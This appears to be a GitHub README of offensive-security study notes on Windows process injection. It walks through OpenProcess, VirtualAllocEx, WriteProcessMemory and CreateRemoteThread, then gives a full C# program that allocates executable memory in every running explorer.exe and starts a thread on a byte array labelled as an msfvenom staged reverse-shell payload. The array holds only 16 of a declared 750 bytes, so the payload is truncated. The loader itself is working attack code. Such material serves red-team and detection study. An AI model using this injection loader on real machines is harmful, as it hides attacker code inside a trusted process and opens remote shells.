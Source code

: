 <img width="1303" height="692" alt="image" src="https://github.com/user-attachments/assets/8c9b2509-cacf-419b-8ca8-d195c7e68c4b" />



##### we can initiate Windows-based process injection by opening a channel from one process to another. Process must be running at same integrity level or lower.    

1. Use Win32 **OpenProcess** API to open a channel. 
2. We'll then modify its memory space through the **VirtualAllocEx** and **WriteProcessMemory** APIs  
3. create a new execution thread inside the remote process with **CreateRemoteThread**.  
<br>
<br>
<br>

STEP #1 [OpenProcess API](http://pinvoke.net/default.aspx/kernel32/OpenProcess.html) has three arguments. Desired access listed on pinvoke webpage  
1. dwDesiredAccess, establishes the access rights we require on that process.  
2. bInheritHandle, determines if the returned handle may be inherited by a child process   
3. dwProcessId, specifies the process identifier of the target process. 
<br>
<br>
<br>


STEP #2 [VirtualAllocEx API](http://pinvoke.net/default.aspx/kernel32/VirtualAllocEx.html)  

[VirtualAllocEx MS page with function prototype](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) 


The first argument (hProcess) is the process handle to explorer.exe that we just obtained from OpenProcess and the second, lpAddress, is the desired address of the allocation in the remote process. If the API succeeds, our new buffer will be allocated with a starting address as supplied in lpAddress.

If the address given with lpAddress is already allocated and in use, the call will fail. It is better to pass a null value and let the API select an unused address.

The last three arguments (dwSize, flAllocationType, and flProtect) mirror the VirtualAlloc API parameters and specify the size of the desired allocation, the allocation type, and the memory protections. We'll set these to 0x1000, 0x3000 (MEM_COMMIT and MEM_RESERVE) and 0x40 (PAGE_EXECUTE_READWRITE), respectively. The VirtualAllocEx invocation is shown below.


<br>
<br>
<br>

STEP #3 [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
<br>
ProtoType:
<br>
We first pass the process handle (hProcess), followed by the newly allocated memory address (lpBaseAddress) in explorer.exe, along with the address of the byte array (lpBuffer) containing the shellcode. The remaining two arguments are the size of the shellcode to be copied (nSize) and a pointer to a location in memory (lpNumberOfBytesWritten) to output how much data was copied.   
<br>

for the word **OUT** in the script below on writeprocessmemory
<br>
We'll observe that the out keyword was prepended to the outSize variable to have it passed by reference instead of value.  
<br>

```C
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```
<br>
<br>
<br>
<br>

STEP #4 [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
<br>
<br>

CreateRemoteThread Prototype:  
<br>

```C
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```
<br>


This API accepts seven arguments, but we will ignore those that aren't required. The first argument is the process handle to explorer.exe, followed by the desired security descriptor of the new thread (lpThreadAttributes) and its allowed stack size (dwStackSize). We will set these to "0" to accept the default values.

For the fourth argument, lpStartAddress, we must specify the starting address of the thread. In our case, it must be equal to the address of the buffer we allocated and copied our shellcode into inside the explorer.exe process. The next argument, lpParameter, is a pointer to variables which will be passed to the thread function pointed to by lpStartAddress. Since our shellcode does not need any parameters, we can pass a NULL here.

The remaining two arguments include various flags (dwCreationFlags) and an output variable for a thread ID (lpThreadId), both of which we will ignore.   
<br><br><br>


Final C# script to inject into explorer.exe found by name.  If there are multiple explorer.exe running this will inject into all of them.  Correct script to point to 0 in explorerprocess array for first instance of explorer.exe  <br><br>
```C#
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace inject
{
    internal class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        static void Main(string[] args)
        {
            IntPtr hProcess = 0;

            Process[] explorerprocess = Process.GetProcessesByName("explorer");
            foreach (Process proc in explorerprocess)
            {
                Console.WriteLine("Found explorer at PID: " + proc.Id);
                
                hProcess = OpenProcess(0x001F0FFF, false, proc.Id);

                //IntPtr hProcess = OpenProcess(0x001F0FFF, false, 6608);
                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

		//buf is msfvenom csharp staged rev shell.
                byte[] buf = new byte[750] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51};

                IntPtr outSize;
                WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            }
        }
    }
}


```
